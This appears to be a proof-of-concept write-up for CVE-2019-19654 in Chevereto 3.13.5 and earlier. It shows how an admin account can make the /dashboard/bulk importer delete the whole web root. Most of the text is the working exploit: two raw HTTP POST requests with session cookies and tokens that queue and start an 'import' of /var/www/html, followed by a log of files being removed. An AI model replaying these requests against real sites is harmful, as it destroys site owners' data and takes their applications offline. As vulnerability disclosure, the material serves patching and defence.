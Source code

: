 # CVE-2019-19654
Chevereto denial of service - <= 3.13.5 Core in the /dashboard/bulk tool.
An attacker with an admin account can insert any path. The bulk importer will remove any file and folder it has access to. Basically you can make the website self-destruct.

# Add job to "import" /var/www/html

<kbd>
  <img src="/1.png?raw=true">
</kbd>

<br/>
<br/>

```
POST /json HTTP/1.1
Host: 192.168.0.88
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 117
Origin: http://192.168.0.88
DNT: 1
Connection: close
Referer: http://192.168.0.88/dashboard/bulk
Cookie: PHPSESSID=47s523u1s4m67g0vaheldg4s31; KEEP_LOGIN=I8G%3A28854bd7bb05d8f456de5afa5b560fe17705fa7da0686c8f392c2ab16359046a112bf5dc002fbc10728c86370f1f66bc141a5214312124f147ba7d28601c5cc6c4fa40f6efce41428e7c03f5f27addaf1227%3A1575670700

auth_token=f731b451467b8ff0054536127bb3ef96251054d4&action=importAdd&path=%2Fvar%2Fwww%2Fhtml&options%5Broot%5D=plain
```

# Start job, which will remove important system files and render the application unusable
```
POST /json HTTP/1.1
Host: 192.168.0.88
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 101
Origin: http://192.168.0.88
DNT: 1
Connection: close
Referer: http://192.168.0.88/dashboard/bulk
Cookie: PHPSESSID=47s523u1s4m67g0vaheldg4s31; KEEP_LOGIN=I8G%3A28854bd7bb05d8f456de5afa5b560fe17705fa7da0686c8f392c2ab16359046a112bf5dc002fbc10728c86370f1f66bc141a5214312124f147ba7d28601c5cc6c4fa40f6efce41428e7c03f5f27addaf1227%3A1575670700

auth_token=f731b451467b8ff0054536127bb3ef96251054d4&id=1&action=importEdit&values%5Bstatus%5D=working
```

# Partial log file of the process
```
1575660328 - [Thread #1] ...Removing directory /var/www/html/app/importer/jobs/9 (rmdir)
1575660328 - [Thread #1] Unable to remove /var/www/html/app/importer/jobs/9
1575660328 - [Thread #1] ...Removing directory /var/www/html/app/importer/jobs (rmdir)
1575660328 - [Thread #1] Unable to remove /var/www/html/app/importer/jobs
1575660328 - [Thread #1] ...Removing directory /var/www/html/app/importer (rmdir)
1575660328 - [Thread #1] Unable to remove /var/www/html/app/importer
1575660328 - [Thread #1] ...Removing file /var/www/html/app/.htaccess (unlink)
1575660328 - [Thread #1] ...Removing file /var/www/html/app/install/installer.php (unlink)
1575660328 - [Thread #1] ...Removing file /var/www/html/app/install/template/updated.php (unlink)
```
